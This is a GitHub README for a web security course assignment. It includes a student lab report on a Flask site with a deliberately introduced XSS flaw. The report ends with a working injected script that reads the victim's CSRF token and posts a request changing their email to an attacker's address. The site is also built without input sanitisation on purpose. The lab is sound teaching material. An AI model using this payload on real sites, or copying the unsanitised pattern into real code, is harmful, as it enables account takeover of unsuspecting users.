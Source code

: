 # CSRF-Web-Security
Simple Flask application containing a vulnerable's website. Cross-Site Request Forgery assignment for Web Security course

## Run the app with the following commands
You can try to perform the attack using the script provided at the end of the readme.

### Put these lines in you hosts file
```text
127.0.0.1 www.attacker.com
127.0.0.1 www.vulnerable.com
```
### Run these commands into your app's folder
```bash
$ export FLASK_APP=app.py; flask run
```
And search for http://www.vulnerable.com:5000 in your browser (log in with credentials provided in user.py file)

# CSRF and XSS Vulnerability Lab Report
Written by Elisa Rizzo, Pietro Visconti

## Introduction
CSRF attacks aim to induce the victim to perform involuntary actions through which the attacker can modify or delete private information, or gain control of the target account.

## Attack Description
The chosen challenge is the last one proposed, regarding the use of an XSS vulnerability to implement a CSRF attack with the purpose of modifying the email of every user who visits the page containing the injected script.

In this case, the attack consists of injecting a script that makes a request to the **my-account/change-password** endpoint. The focal point is to retrieve the victim's CSRF token so that the request created by the attacker is accepted. To do this, the script needs to access the document body and access the csrf attribute, as will be further detailed in the section regarding the attack reproduction on our Flask application.

## Vulnerability in Flask Application
To build the Flask application, we started from the application provided in the previous exercise and modified it to include the XSS vulnerability necessary to trigger the CSRF attack.

Firstly, we configured the vulnerable site to include `flask_wtf.csrf`, the library required to activate protection against CSRF attacks, which generates a new token for each request, making the ones already used obsolete.

```python
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect()
csrf.init_app(app)
```

Additionally, we added a new route to allow users to change their email. This route retrieves the email field from the request body and assigns it to the user's email field.

```python
@vulnerable_blueprint.route("/change-email", methods=["POST"], host=VULNERABLE_DOMAIN)
def change_email():
    user = get_current_user()
    user.email = request.form.get('email');
    return user.email
```

The form for submitting the post includes a hidden input field, csrf_token, containing the CSRF token value to ensure the user's identity before the actual submission. No input sanitization is performed, introducing an XSS vulnerability that can be exploited to include tags, such as the script tag used in the actual attack, within the post body.

The attacker's script consists of the following steps:
1. It calls the `window.addEventListener('DOMContentLoaded')` function to execute the script once the HTML page is fully loaded in the client's browser.
2. Within the callback of this function, the CSRF attack is executed.
3. The CSRF token is retrieved from the DOM and stored in the `csrf` variable.
4. A `FormData` variable is created to create a form and fill it with the inputs that will be transmitted in the request body.
5. The following fields are added to the form:
   - `csrf_token`, required for the successful execution of the request.
   - the email chosen by the attacker.
6. An `XMLHttpRequest` variable is created and configured to make a `POST` request to the `/change-email` endpoint of the vulnerable site.
7. Finally, the request is sent.

```javascript
<script>
    window.addEventListener('DOMContentLoaded', function() {
        let csrf = document.getElementsByName("csrf_token")[0].value;
        let data = new FormData();
        data.append('csrf_token', csrf);
        data.append('email', 'attacker@gmail.com');
        var xhttp = new XMLHttpRequest();
        xhttp.open("POST", "http://www.vulnerable.com:5000/change-email", false);
        xhttp.send(data);
    });
</script>
```
